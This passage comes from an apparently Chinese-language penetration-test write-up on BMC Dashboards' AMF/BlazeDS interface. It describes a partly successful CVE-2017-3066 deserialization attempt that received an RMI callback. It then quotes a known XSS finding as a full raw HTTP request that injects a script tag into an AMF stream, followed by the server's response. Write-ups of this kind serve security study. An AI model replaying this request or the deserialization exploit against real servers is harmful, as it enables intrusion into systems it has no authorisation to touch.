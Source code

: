 

除了这个`manager`服务中的`searchByParam`方法，还尝试Fuzz枚举更多的方法来挖掘漏洞，但是没能成功，比较可惜。



#### 反序列化(CVE-2017-3066)

Adobe Flash的反序列化漏洞挺多的，遇到AMF传输的都可以试下各种反序列化。

这个漏洞是基于 [Adobe Coldfusion 11.0.03.292866 - BlazeDS Java Object Deserialization Remote Code Execution（CVE-2017-3066）](https://www.exploit-db.com/exploits/43993) ，简单修改下poc 即可利用，成功收到RMI回连信息，但是后续命令执行遇到问题。

因为时间关系，最终也没完全利用成功。



### 历史漏洞

#### XSS

以下漏洞都不是自己挖的，来自网络，只是作为补充

[BMC Dashboards 7.6.01 - Cross-Site Scripting / Information Disclosure](https://www.exploit-db.com/exploits/35707)

Multiple XSS as the AMF stream is unfiltered

```http
POST /bsmdashboards/messagebroker/amfsecure HTTP/1.1
Content-Type: application/x-amf
Host: target-domain.foo
Content-Length: 462

........null../58.....    ..
.COflex.messaging.messages.RemotingMessage.timestamp.headers.operation

bodysource.remotePassword.remoteUsername.parameters.messageId.timeToLive.clientId.destination.........
#.
DSId.DSEndpoint.IFDCEEFC2-F318-1B37-7F3A-B438E60525E0..bsd-secure-amf...getUndefinedDataSources&lt;script&gt;alert(1)&lt;/script&gt;
   ..
.qcom.bmc.bsm.dashboards.services.facade.RequestParameters.
#.    name.version..208Archive..1.0...
.Cflex.messaging.io.ArrayCollection    ..
..I3DDF906B-55F2-5E38-38C1-6A08D1AC077B..........IFDDDB883-6F0C-D935-5E7B-25CDF25C3538.-dashboardArchiveFacade
```

```http
HTTP/1.1 200 OK
Date: Sat, 02 Oct 2010 00:15:35 GMT
Server: Microsoft-IIS/6.0
X-Powered-By: ASP.NET
Content-Type: application/x-amf
Content-Length: 4651

......../58/onStatus.......
.SIflex.messaging.messages.ErrorMessage.headers.rootCause
body.correlationId.faultDetail.faultString.clientId.timeToLive.destination.timestamp.extendedData.faultCode.messageId
..
..acom.bmc.bsm.dashboards.util.logging.BSDException.message
guid!localizedMessage.cause.arguments.priority.traceback.errorCode.causeSummary.System
error. Contact your system administrator for assistance.
.Kcom.bmc.bsm.dashboards.util.guid.Guid!uniqueIdentifier.AdZZZZZZZZJIiCvq53w9q0gerq4j8y0oq.0
.s?flex.messaging.MessageException.errorMessage.&#34;$)logStackTraceEnablednumber

```